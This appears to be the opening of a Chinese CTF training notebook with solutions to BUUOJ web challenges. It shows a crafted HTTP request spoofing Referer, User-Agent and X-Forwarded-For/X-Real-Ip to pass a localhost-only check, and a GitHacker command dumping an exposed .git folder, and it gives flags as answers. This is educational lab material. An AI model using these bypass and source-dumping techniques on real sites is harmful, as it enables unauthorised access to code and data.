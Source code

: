 ***
# [CTF实战：从入门到提升]()
***
# 1 Web
## HTTP
### [HTTP](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Http)

修改请求信息，有`Referer`来源、`User-Agent`中客户端信息如浏览器等，及`X-Forwarded-For`伪造IP只允许本地访问

获取flag后需要把`flag{xxx}`整个commit才通过。。。只commit大括号里面的flag内容给我显示错误。。。

最终请求
```sh
GET /Secret.php HTTP/1.1
Host: node5.buuoj.cn:28483
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Syclover/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer:https://Sycsecret.buuoj.cn
X-Forwarded-For:127.0.0.1
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

### [BUU BURP COURSE 1](https://buuoj.cn/challenges#BUU%20BURP%20COURSE%201)

`X-Forwarded-For:127.0.0.1`不管用了，需要`X-Real-Ip:127.0.0.1`

### [Git](https://buuoj.cn/challenges#[%E7%AC%AC%E4%B8%80%E7%AB%A0%20web%E5%85%A5%E9%97%A8]%E7%B2%97%E5%BF%83%E7%9A%84%E5%B0%8F%E6%9D%8E)


```sh
python3 -m pip install -i https://pypi.org/simple/ GitHacker

githacker --url http://0d2b78ce-3914-4c05-8538-063c5b822c38.node5.buuoj.cn:81/.git/ --output-folder ./
```
flag在index.html下`n1book{git_looks_s0_easyfun}`

### [PHP变量覆盖](https://buuoj.cn/challenges#[BJDCTF2020]Mark%20loves%20cat)
